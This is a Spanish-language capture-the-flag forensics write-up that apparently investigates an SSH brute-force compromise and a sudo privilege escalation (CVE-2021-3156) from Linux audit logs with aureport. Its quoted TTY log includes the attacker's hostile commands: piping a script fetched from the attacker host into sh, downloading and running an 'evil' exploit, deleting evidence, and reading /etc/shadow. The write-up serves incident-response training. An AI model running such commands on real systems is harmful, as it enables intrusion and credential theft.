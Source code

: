 

Para este análisis estaremos usando `aureport`, que es una herramienta para generar informes resumidos a partir de los registros de auditoría del sistema.

Podemos usar el siguiente comando para ver la información general. 

```bash 
┌──(kali㉿kali)-[~/challenges/paranoid/Challenge Files]
└─$ cat analisis

Summary Report
======================
Range of time in logs: 10/04/2021 20:22:07.664 - 10/04/2021 20:28:06.610
Selected time for report: 10/04/2021 20:22:07 - 10/04/2021 20:28:06.610
Number of changes in configuration: 15
Number of changes to accounts, groups, or roles: 0
Number of logins: 1
Number of failed logins: 87
Number of authentications: 3
Number of failed authentications: 89
Number of users: 3
Number of terminals: 10
Number of host names: 6
Number of executables: 115
Number of commands: 192
Number of files: 298
Number of AVC's: 0
Number of MAC events: 0
Number of failed syscalls: 1606
Number of anomaly events: 0
Number of responses to anomaly events: 0
Number of crypto events: 0
Number of integrity events: 0
Number of virt events: 0
Number of keys: 1
Number of process IDs: 10679
Number of events: 16728
```

Así que empezammos con las preguntas: 

-----

1, What account was compromised? 

Para esto podemos usar el siguiente comando: 

```bash 
┌──(kali㉿kali)-[~/challenges/paranoid/Challenge Files]
└─$ aureport -l -if audit.log
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log

Login Report
============================================
# date time auid host term exe success event
============================================
1. 10/04/2021 20:22:41 btlo 192.168.4.155 sshd /usr/sbin/sshd no 465432
2. 10/04/2021 20:22:41 btlo 192.168.4.155 sshd /usr/sbin/sshd no 465434
3. 10/04/2021 20:22:41 btlo 192.168.4.155 sshd /usr/sbin/sshd no 465436
<SNIP>
87. 10/04/2021 20:23:08 btlo 192.168.4.155 sshd /usr/sbin/sshd no 467229
88. 10/04/2021 20:23:16 1001 192.168.4.155 /dev/pts/1 /usr/sbin/sshd yes 468383
```

Vemos una conexión desde la misma ip así que podemos asumir que la cuenta que se comprometió fue `btlo`

----

2. What attack type was used to gain initial access?

Por lo que vemos en el primer análisis, con la cantidad de inicios de sesión fallidos, podemos afirmar que se trata de un ataque de fuerza bruta(brute force). 

-------

3. What is the attacker's IP address?

Podemos verlo en los registros de la pregunta 1: `192.168.4.155`.

-----

4. 

Para esto podemos usar el siguiente comando:

```bash 
┌──(kali㉿kali)-[~/challenges/paranoid/Challenge Files]
└─$ aureport --tty -if audit.log
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 10/04/2021 20:23:16 468403 1001 pts1 49 sh "hostname",<nl>
2. 10/04/2021 20:23:21 468408 1001 pts1 49 sh "whoami",<nl>
3. 10/04/2021 20:23:26 468414 1001 pts1 49 sh "ls",<nl>
4. 10/04/2021 20:23:27 468419 1001 pts1 49 sh "sudo -l",<nl>
5. 10/04/2021 20:23:34 468447 1001 pts1 49 sh <nl>
6. 10/04/2021 20:23:37 468450 1001 pts1 49 sh "wget -O - http://192.168.4.155:8000/linpeas.sh | sh",<nl>
7. 10/04/2021 20:26:21 480914 1001 pts1 49 sh "lsb_release -a",<nl>
8. 10/04/2021 20:26:31 480921 1001 pts1 49 sh "sudo -V",<nl>
9. 10/04/2021 20:26:36 480934 1001 pts1 49 sh "wget http://192.168.4.155:8000/evil.tar.gz",<nl>
10. 10/04/2021 20:26:45 480944 1001 pts1 49 sh "ls",<nl>
11. 10/04/2021 20:26:50 480947 1001 pts1 49 sh "tar zxvf evil.tar.gz",<nl>
12. 10/04/2021 20:26:59 480982 1001 pts1 49 sh "cd evil",<nl>
13. 10/04/2021 20:27:03 480984 1001 pts1 49 sh "ls",<nl>
14. 10/04/2021 20:27:06 480987 1001 pts1 49 sh "make",<nl>
15. 10/04/2021 20:27:10 481020 1001 pts1 49 sh "./evil 0",<nl>
16. 10/04/2021 20:27:17 481039 1001 pts1 49 sh "whoami",<nl>
17. 10/04/2021 20:27:21 481050 1001 pts1 49 sh "rm -rf /home/btlo/evil",<nl>
18. 10/04/2021 20:27:39 481059 1001 pts1 49 sh "rm  /home/btlo/evil.tar.gz",<nl>
19. 10/04/2021 20:27:45 481062 1001 pts1 49 sh "cat /etc/shadow",<nl>
20. 10/04/2021 20:27:50 481064 1001 pts1 49 sh "exit",<nl>
21. 10/04/2021 20:27:53 481065 1001 pts1 49 sh "exit",<nl>
```

`linpeas.sh` es una herramienta de enumeración en sistemas linux para detección de vulnerabilidades y escalada de privilegios. 

------

5. What is the name of the binary and pid used to gain root?

Por las acciones vistas en la pregunta anterior, vemos que primero revisa el usuario al que ha ganado acceso, obtiene una herramienta para escalar privilegios para finalmente volver a comprobar su usuario y leer el /etc/shadow, que necesita permisos de administrador. 

Así que buscamos ese programa llamado `evil`: 

```bash 
┌──(kali㉿kali)-[~/challenges/paranoid/Challenge Files]
└─$ aureport -p -if audit.log | grep "evil"
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
16152. 10/04/2021 20:27:17 829992 /home/btlo/evil/evil 59 1001 481021
```

------

6. What CVE was exploited to gain root access?

Primero vemos que el atacante ejecutó el comando `sudo -V` y después obtuvo permisos de root con un ejecutable, así que podemos aplicar una búsqueda en internet con "binary execution to root linux", encontraremos que se trata del /cve-2021-3156. 

------

7. 

De acuerdo a la página del [CVE](https://nvd.nist.gov/vuln/detail/cve-2021-3156), se trata de un `heap-based buffer overflow`. 

------

8. What file was exfiltrated once root was gained?

Por los comandos vistos en la pregunta 2, vimos que se accedió al `/etc/shadow`
